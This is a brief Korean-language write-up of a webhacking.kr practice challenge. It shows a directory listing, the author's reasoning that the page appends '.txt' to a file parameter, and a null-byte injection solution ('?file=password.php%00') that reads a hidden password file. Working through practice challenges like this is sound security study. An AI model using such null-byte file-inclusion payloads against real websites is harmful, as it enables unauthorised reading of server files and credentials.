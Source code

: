 # 25

### First impression
```
합계 12
-rw-r--r-- 1 oldzombie users   12  5월 14 00:57 hello.txt
-rw-r--r-- 1 oldzombie users 1158  9월  5 01:24 index.php
-rw-r--r-- 1 oldzombie users   57  5월 14 00:57 password.php

hello world

```
```
http://webhacking.kr/challenge/bonus/bonus-5/?file=hello
```

### Trial and error
* `http://webhacking.kr/challenge/bonus/bonus-5/`로 접속해도 `?file=hello`라는 파라미터가 계속 따라붙는다.
* `http://webhacking.kr/challenge/bonus/bonus-5/password.php`로 접속하면 빈 화면만 뜬다.
```
<html><head></head><body></body></html>
```
* `합계 12`인데 뜨는 파일은 3개인 것을 봐서는 더 있는데 안보여주는 것 같다.
* 분명 `?file=` 파라미터로 넘겨서 원하는 파일을 보는 것이라고 생각하는데, 계속 `hello.txt`만 보여준다.
* `?file=hello`를 넘겼을 때 `hello.txt`를 출력하는 것을 보아, 자동으로 `.txt`를 붙여주는 것 같다.
* `?file=password.php%00`로 끝에 `NULL`을 먹이면, 뒤에 `.txt`는 무시할 것이다.

### Solution
* `?file=password.php%00`